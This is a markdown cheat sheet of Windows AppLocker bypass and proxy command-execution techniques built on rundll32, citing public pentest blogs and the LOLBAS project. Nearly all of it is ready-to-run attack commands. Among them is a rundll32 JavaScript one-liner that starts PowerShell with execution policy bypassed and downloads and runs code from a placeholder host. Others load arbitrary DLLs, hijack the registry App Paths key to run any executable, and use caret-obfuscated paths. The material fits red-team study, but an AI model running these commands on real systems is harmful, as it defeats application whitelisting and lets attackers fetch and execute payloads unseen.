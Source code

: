 # Applocker Bypass
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/

The following command needs to be executed from the command prompt. If the command prompt is locked then the method that is described below can be used to unlock the cmd.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```

The utility rundll32 can then load and execute the payload that is inside the pentestlab.dll.
```
rundll32 shell32.dll,Control_RunDLL C:\Users\pentestlab.dll
```
## Open Command Prompt
Since the rundll32 is a trusted Microsoft utility it can be used to load the cmd.dll into a process, execute the code on the DLL and therefore bypass the AppLocker rule and open the command prompt. The following two commands can be executed from the Windows Run:
```
rundll32 C:\cmd.dll,EntryPoint
```
OR
```
rundll32 shell32.dll,Control_RunDLL C:\cmd.dll
```
## Open Registry Editor


The following commands can load and run the regedit.dll via rundll32 and therefore bypass the AppLocker rule.
```
rundll32 C:\regedit.dll,EntryPoint
```
OR
```
rundll32 shell32.dll,Control_RunDLL C:\regedit.dll
```


# PASS-THRU COMMAND EXECUTION WITH ‘TelnetProtocolHandler’
https://twitter.com/nas_bench/status/1432781693279248390

1. create "telnet.exe" key in the "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths" registry
2. Set the "Default" key to any executable you want to run. 
3. Call it in CMD by running:
```
rundll32.exe url.dll,TelnetProtocolHandler
```

# PASS-THRU COMMAND EXECUTION WITH ‘OPENURL’
https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/
### URL FILE EXAMPLE (‘CALC.URL’)
```
[InternetShortcut]
URL=file:///c:\windows\system32\calc.exe
```
### COMMAND EXAMPLES
```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
rundll32.exe url.dll, OpenURL <path to local URL file>
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```
```
rundll32.exe url.dll,OpenURL "C:\test\calc.hta"	 
rundll32.exe url.dll,OpenURL "C:\test\calc.url"	 
rundll32.exe url.dll,OpenURL file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e	 
```
# PASS-THRU COMMAND EXECUTION WITH ‘FileProtocolHandler’
https://strontic.github.io/xcyclopedia/library/url.dll-3B193173A517524600C63D60FE3C0771.html
```
rundll32.exe url.dll,FileProtocolHandler calc.exe	 
rundll32.exe url.dll,FileProtocolHandler file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e	 
rundll32.exe url.dll,FileProtocolHandler file:///C:/test/test.hta
```

DLL Exports:
1. TelnetProtocolHandler	
2. TelnetProtocolHandlerA	
3. OpenURL	
4. OpenURLA
5. URLAssociationDialogA
6. URLAssociationDialogW
7. TranslateURLA
8. TranslateURLW
9. MIMEAssociationDialogW
10. FileProtocolHandler
11. FileProtocolHandlerA
12. AddMIMEFileTypesPS
13. AutodialHookCallback
14. MailToProtocolHandlerA
15. MIMEAssociationDialogA
16. InetIsOffline	
17. MailToProtocolHandler



# Extra References
1. https://strontic.github.io/xcyclopedia/
2. https://lolbas-project.github.io/
3. 
